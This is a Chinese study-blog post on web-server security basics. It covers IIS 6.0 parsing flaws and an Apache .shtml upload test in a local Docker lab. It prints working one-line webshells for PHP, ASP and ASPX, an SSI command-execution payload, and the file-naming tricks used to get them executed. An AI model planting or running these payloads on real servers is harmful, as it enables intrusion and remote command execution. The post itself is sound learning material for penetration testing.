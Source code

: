```yaml
---
layout: post
title: xdaq day3
author: PWN022
tags:
- xdaq
date: 2022-08-29 00:00 +0800
toc:  true
---
```


# day3基础入门—搭建安全拓展

#### ==涉及知识：==

- 常见搭建平台脚本启用
- 域名IP目录解析安全问题
- 常见文件后缀解析对应安全
- 常见安全测试中的安全防护
- WEB后门与用户及文件权限

---

<b>ASP,PHP,ASPX,JSP,PY,JAVAWEB等环境</b>

<b> WEB源码中敏感文件<br>后台路径，数据库配置文件，备份文件等 </b><br><b>IP或域名解析WEB源码目录对应下存在的安全问题<br>域名访问，IP访问(结合类似备份文件目录)</b> *<b>IP访问可以扫描到根目录，而域名访问就是在指定的项目目录</b>*

<b>脚本后缀对应解析(其他格式可相同-上传安全)</b><br><b>存在下载或解析问题</b>

<b>常见防护中的IP验证，域名验证等</b>

<b>后门是否给予执行权限<br>后门是否给予操作目录或文件权限<br>后门是否给予其他用户权限</b>

---

## IIS解析漏洞

IIS在解析文件时存在以下两个解析漏洞

```css
1、当建立*.asp、*.asa格式的文件夹时，其目录下任意文件都会被iis当作asp文件来解析。
2、当文件为*.asp;1.jpg时，IIS6.0同样会以ASP脚本来执行。
```

##### IIS解析漏洞利用：

##### *太旧了（来自2023.10.3的吐槽）*

1. 在wwwroot文件夹下建立一个test.asp文件夹，文件夹里面添加一个ma.asp

   ![iisasp1](https://cdn.jsdelivr.net/gh/PWN022/0x00/XDAQ/my_screenshot/iisasp1.png)

   ![iisasp2](https://cdn.jsdelivr.net/gh/PWN022/0x00/XDAQ/my_screenshot/iisasp2.png)

   

通过127.0.0.1/test.asp/ma.jpg访问  把改地址放到菜刀里面成功进入

![iisasp3](https://cdn.jsdelivr.net/gh/PWN022/0x00/XDAQ/my_screenshot/iisasp3.png)

2. 在wwwroot文件下建一个ma.asp;.jpg文件，里面写一句话木马

![iisasp4](https://cdn.jsdelivr.net/gh/PWN022/0x00/XDAQ/my_screenshot/iisasp4.png)

再通过127.0.0.1/ma.asp;.jpg访问 添加到菜刀

其余漏洞见*https://www.cnblogs.com/secevery/p/5804504.html*

php的一句话木马： 

```bash
<?php @eval($_POST['pass']);?>
```

asp的一句话是：   

```bash
<%eval request ("pass")%>
```


aspx的一句话是：  

```bash
<%@ Page Language="Jscript"%> <%eval(Request.Item["pass"],"unsafe");%>
```

## 搭建靶场

![ubuntu1](https://cdn.jsdelivr.net/gh/PWN022/0x00/XDAQ/my_screenshot/ubuntu1.png)

因为某种原因下载失败，需要把下载后缀改为git*（2023.10.3修改）*

tomcat弱口令测试，由于找不到合适的jsp大马，暂告一段落

## 靶场—apache上传测试

*需要 Ubuntu搭建的漏洞环境、burp、firefox浏览器代理*

1. 在靶场编译并运行环境

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00/XDAQ/my_screenshot/apache1.png" alt="apache1" style="zoom: 50%;" />

2. 访问环境

![apache2](https://cdn.jsdelivr.net/gh/PWN022/0x00/XDAQ/my_screenshot/apache2.png)

3. 测试服务器类型 以及尝试上传普通文件

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00/XDAQ/my_screenshot/apache3.png" alt="apache3" style="zoom:61%;" />

4. 上传一个后缀名.shtml的文件

```
<!--#exec cmd="ls" -->
```

> shtml是包含有嵌入式服务器方包含命令的HTML（标准通用标记语言下的一个应用）文本。在被传送给浏览器之前，服务器会对SHTML文档进行完全地读取、分析以及修改。
> 　　shtml是一种用于SSI技术的文件——Server Side Include--SSI。Shtml也是网页文件，但它是服务器动态产生的静态网页，需要服务器自带SSI处理出来静态网页，通常有shtml和shtm两个扩展名。
> 　　shtml和asp有一些相似，以shtml命名的文件里，使用了ssi的一些指令，就像asp中的指令，你可以在SHTML文件中写入SSI指令，当客户端访问这些shtml文件时，服务器端会把这些SHTML文件进行读取和解释，把SHTML文件中包含的SSI指令解释出来。因为包含 SSI 指令的文件要求特殊处理，所以必须为所有 SSI 文件赋予 SSI 文件扩展名。默认扩展名是 .stm、。shtm 和 .shtml。可以用浏览器和一些文本编辑工具打开。

5. 放行结果为成功

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00/XDAQ/my_screenshot/apache4.png" alt="apache4"  />

6. 查看域名下的shtml文件

![apache5](https://cdn.jsdelivr.net/gh/PWN022/0x00/XDAQ/my_screenshot/apache5.png)

**测试完成**

**关闭环境** 

```
docker-compose down
```

